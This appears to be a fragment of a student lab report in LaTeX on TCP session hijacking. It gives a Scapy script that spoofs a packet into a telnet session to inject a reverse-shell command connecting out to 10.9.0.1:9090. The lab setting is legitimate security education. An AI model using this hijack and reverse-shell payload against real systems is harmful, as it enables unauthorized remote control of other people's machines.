 \documentclass[12pt]{article}
\begin{document}
\begin{figure}[!ht]
  \includegraphics*[scale=.35]{Task4TargetPacket.png}
\end{figure}

Looking at this packet we can see the following information. The source port of 35062, sequence of 4180794967 and acknowledement of 1151693991.
Using that we can make the following python program. The data will be the command we want to execute in order to create a reverse shell. This 
code can also be viewed in task4.py

\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

ip = IP(src="10.9.0.7", dst="10.9.0.5")
tcp = TCP(sport=35062, dport=23, flags="A", seq=4180794967, 
          ack=1151693991)
data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
\end{lstlisting}

Executing the command the following happens.

\begin{figure}[!ht]
  \includegraphics*[scale=.5]{Task4Attack.png}
\end{figure}

\newpage
\end{document}
